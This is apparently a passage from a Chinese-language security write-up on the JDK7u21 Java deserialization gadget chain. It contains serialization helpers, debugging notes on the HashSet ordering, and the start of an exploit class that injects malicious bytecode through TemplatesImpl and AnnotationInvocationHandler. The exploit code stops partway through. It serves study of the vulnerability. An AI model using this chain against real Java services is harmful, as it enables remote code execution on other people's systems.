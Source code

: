 ```java
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

为什么还是跑不了？

调试的时候发现先put的是annoProxy，（逆序反序列化），后put的templatesClass

> 这里因为没有AnnotationInvocationHandler的源码所以调试报错，不用管。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914204524924.png)

换个顺序就能爆杀辣：

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\codecollect\\RMIServer\\RMIServer\\target\\classes\\org\\example\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
        Annovar2map.put("f5a5a608",templatesClass);
```